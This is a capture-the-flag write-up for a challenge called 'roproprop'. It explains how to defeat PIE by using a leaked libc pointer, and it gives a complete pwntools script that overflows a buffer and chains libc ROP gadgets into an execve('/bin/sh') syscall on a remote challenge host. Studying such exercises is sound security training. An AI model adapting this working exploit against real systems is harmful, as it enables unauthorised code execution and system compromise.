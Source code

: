 ## roproprop

---

FLAG{REDACTED}

---

This one was very similar to the previous one, except it has PIE enabled, and is dynamically linked.

1. Dynamically linked, means that there aren't enough rop gadgets to easily make a chain.
2. PIE means that we need to calculate the actual addresses of the rop gadgets by offsetting them with the address of libc-base

Fortunately, we have a pointer into a libc leaked to us. Turns out, it points to the `setbuf` function. In that case, all we need is to calculate the start of libc by subtracting the offset to `setbuf` from it. Since the exact version of libc is provided, we can use that to get the offset of `setbuf` and calculate the value of libc-base. After that we can simply offset each of the rop gadgets found in libc with the libc base calculated at runtime and pop a shell using the method from static.

**Did I mention `pop` instructions are too amazing?**

```python
#!/usr/bin/python3

from pwn import *

# p = process('./roproprop')
p = remote('plsdonthaq.me', 6003)

# gdb.attach(p)

p.readuntil('- ')
libc_ptr = int(p.readuntil(' -', drop=True), 16)
libc_base = libc_ptr - 0x00065ff0

def getLibcAddress(offset):
	return p32(libc_base + offset)

padding = b'A' * 0x4ca
retPad = b'BBBB'

# pop ebx
binsh = getLibcAddress(0x0015ba0b)
rop1 = getLibcAddress(0x00018395)

# pop ecx; pop edx;
rop2 = getLibcAddress(0x0002bc6c)

# mov eax, 4
rop4 = getLibcAddress(0x000a05d0)

# add eax, 7
rop5 = getLibcAddress(0x0013fd0f)

# int 0x80
rop6 = getLibcAddress(0x00002c87)

p.sendline(padding + retPad
		+ rop1 + binsh + rop2 + p32(0) + p32(0) + rop4 + rop5 + rop6)

p.interactive()
```
